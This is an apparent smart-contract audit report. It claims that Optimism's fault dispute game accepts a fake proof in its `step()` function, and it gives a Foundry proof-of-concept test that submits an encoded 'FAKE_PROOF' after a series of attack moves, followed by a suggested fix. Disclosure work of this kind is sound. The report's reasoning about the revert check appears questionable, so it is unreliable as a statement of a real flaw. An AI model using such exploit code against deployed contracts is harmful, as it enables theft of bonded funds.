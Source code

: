 Recumbent Maroon Scorpion

high

# Fake or Empty proof can be validated successfully on `step()` function

## Summary
The `step()` function executes the MIPS machine on L1 with one-step proof. The `step()` is an affirmative action, it proves something, instead of being a claim.

This report describes how fake or empty proof can be validated as a `ValidStep`.

## Vulnerability Detail
The `step()` function validates the step by taking `proof`,  `stateData` and `claimIndex`.

The below `validStep` will return false if the attacker gives a fake or empty proof in it.
```solidity
bool validStep = VM.step(_stateData, _proof, uuid.raw()) == postState.claim.raw();
```

The below `ParentPostAgree` will return  true, if it's moved through the next appropriate claim index:
```solidity
bool parentPostAgree = (parentPos.depth() - postState.position.depth()) % 2 == 0;
```

It validates in the wrong way by comparing those two variables. If both variables are true or false, it would revert.
```solidity
if (parentPostAgree == validStep) revert ValidStep();
```

In this case, if the attacker gives a fake or empty proof, the `validStep()` would be false, and if the attacker makes a move, the next appropriate claim index would be true.
The if condition will become `true == false` making the condition false and does not revert. 

***Proof of Concept:***
The below code is a foundry test case that showcases the following:
* The attacker prepares fake proof.
* After several `attack()` claims by other users, he calls `addLocalData` with `Disputed_L2_Block_Number` and next `claimIndex`
* Then he calls `step()` with necessary parameters such as `claimIndex`, `preStateData` and `fakeProof`
* The `absolutePrestateData` is taken from the FaultDispute game contract itself.

```solidity
    function test_step_fakeProof_succeeds() public {
        vm.deal(address(this), 1000 ether);

        //Encoding Fake/invalid Proof
        bytes memory fakeProof = abi.encode("FAKE_PROOF");

        //Make claims
        gameProxy.attack{ value: _getRequiredBond(0) }(0, _dummyClaim());
        gameProxy.attack{ value: _getRequiredBond(1) }(1, _dummyClaim());
        gameProxy.attack{ value: _getRequiredBond(2) }(2, _dummyClaim());
        gameProxy.attack{ value: _getRequiredBond(3) }(3, _dummyClaim());
        gameProxy.attack{ value: _getRequiredBond(4) }(4, _changeClaimStatus(_dummyClaim(), VMStatuses.PANIC));
        gameProxy.attack{ value: _getRequiredBond(5) }(5, _dummyClaim());
        gameProxy.attack{ value: _getRequiredBond(6) }(6, _dummyClaim());
        gameProxy.attack{ value: _getRequiredBond(7) }(7, _dummyClaim());

        gameProxy.addLocalData(LocalPreimageKey.DISPUTED_L2_BLOCK_NUMBER, 8, 0);
        gameProxy.step(8, true, absolutePrestateData, fakeProof);
    }
```

***Add the snippet in the `FaultDisputeGame.t.sol` file and run `forge test FaultDisputeGame.t.sol`, the test will succeed.***

## Impact
Anyone can prove the `step()` with invalid `_proof`. This leads to malicious user who can set the parent claim as countered by himself.

## Code Snippet
https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L210-L212

## Tool used

Manual Review, Foundry.

## Recommendation
Consider validating both `parentPostAgree` and `validStep` not to be false. If one of them is false consider reverting.
Pseudocode:
```solidity
if(!validStep || !parentPostAgree) revert ValidStep();
```